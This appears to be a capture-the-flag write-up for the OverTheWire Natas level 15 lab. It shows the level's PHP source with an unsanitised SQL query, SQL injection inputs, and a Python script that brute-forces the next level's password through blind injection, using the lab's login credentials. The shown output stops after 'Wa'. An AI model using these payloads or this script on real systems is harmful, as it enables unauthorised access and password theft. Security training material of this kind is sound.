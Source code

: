 ```
/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas15', '<censored>'); 
    mysql_select_db('natas15', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        echo "This user exists.<br>"; 
    } else { 
        echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 
```
Setting `username= " or 1 = 1 -- ` (note the trailing space) gives us this user exists, but we aren't closer to the password. `username=natas16` also exists, so looks like we will have to do a blind injection.

If we try `natas16" AND password = "a" -- ` this user does not exist.

If we try `natas16" AND password IS NOT NULL -- ` we get a this user exits.

Knowing we can test against the password and using one of several SQL statements (LIKE BINARY, strcmp) we can check each character until we reach the correct password.

Let's write a python script to a handle this.

```python
import requests

user = 'natas15'
password = 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'
url = 'http://natas15.natas.labs.overthewire.org/index.php'
alphas  = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
passwd = ''

for i in range(0,32):
    for char in alphas:
        sql = {'username' : 'natas16" and password LIKE BINARY "' + passwd + char  + '%" -- '}
        r= requests.post(url, auth=(user, password), data=sql)
        if 'exists' in r.text:
            passwd += char
            print(passwd)
            break
```
Running it gives
```
W
Wa
```